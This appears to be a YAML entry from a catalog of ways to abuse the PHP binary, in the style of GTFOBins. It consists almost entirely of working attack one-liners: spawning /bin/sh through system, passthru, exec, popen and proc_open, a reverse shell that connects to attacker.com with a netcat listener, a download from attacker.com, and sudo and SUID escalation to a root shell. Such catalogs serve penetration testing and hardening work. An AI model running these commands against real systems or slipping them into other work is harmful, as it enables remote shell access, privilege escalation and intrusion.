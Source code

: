 ```yaml
---
functions:
  execute-interactive:
    - code: |
        export CMD="/bin/sh"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="/bin/sh"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="/bin/sh"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join("\\n",$r));'
    - code: |
        export CMD="/bin/sh"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires PHP version 5.4 or later.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  suid-enabled:
    - code: |
        CMD="/bin/sh"
        ./php -r "system('$CMD');"
  sudo-enabled:
    - code: |
        CMD="/bin/sh"
        sudo php -r "system('$CMD');"
---
```

